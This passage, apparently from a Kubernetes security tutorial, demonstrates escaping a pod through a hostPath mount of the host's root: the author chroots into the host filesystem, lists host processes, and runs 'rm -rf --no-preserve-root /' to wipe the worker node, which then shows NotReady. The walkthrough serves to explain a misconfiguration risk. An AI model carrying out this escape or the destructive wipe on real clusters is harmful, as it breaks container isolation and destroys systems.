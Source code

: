 Above you can see we are mounting `/` of the host inside pod at `/web`. This is our gateway to host's file system. Let's deploy this:

```bash
$ kubectl apply -f deployment.yaml
deployment.apps/web created
```

And now that pod has started:

```bash
$ kubectl get pods -o wide
NAME                   READY     STATUS    RESTARTS   AGE       IP          NODE       NOMINATED NODE
web-66cdf67bbc-44zhj   1/1       Running   0          4m        10.38.0.1   worker-2   <none>
```

Getting inside the pod and checking out the mounted directory:

```bash
$ kubectl exec -it web-66cdf67bbc-44zhj bash
[root@web-66cdf67bbc-44zhj /]# cd /web
[root@web-66cdf67bbc-44zhj web]# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  vagrant  var  vmlinuz  vmlinuz.old
```

Now we can either `chroot` into this and see the output of `ps`.

```bash
[root@web-66cdf67bbc-44zhj ~]# chroot /web
# ps aufx
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         2  0.0  0.0      0     0 ?        S    05:15   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   05:15   0:00  \_ [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   05:15   0:00  \_ [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    05:15   0:00  \_ [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    05:15   0:00  \_ [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    05:15   0:00  \_ [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    05:15   0:00  \_ [migration/0]
root        11  0.0  0.0      0     0 ?        S    05:15   0:00  \_ [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    05:15   0:00  \_ [cpuhp/0]
```

Or you can just delete the entire `root`, a.k.a. nuking the node.

```bash
# rm -rf --no-preserve-root /
```

Now if you look at the nodes:

```bash
$ kubectl get nodes -o wide
NAME       STATUS     ROLES     AGE       VERSION   INTERNAL-IP      EXTERNAL-IP   OS-IMAGE             KERNEL-VERSION      CONTAINER-RUNTIME
worker-0   Ready      <none>    30m       v1.11.2   192.168.199.20   <none>        Ubuntu 18.04.1 LTS   4.15.0-33-generic   cri-o://1.11.2
worker-1   Ready      <none>    29m       v1.11.2   192.168.199.21   <none>        Ubuntu 18.04.1 LTS   4.15.0-33-generic   cri-o://1.11.2
worker-2   NotReady   <none>    27m       v1.11.2   192.168.199.22   <none>        Unknown              4.15.0-33-generic   cri-o://Unknown
```
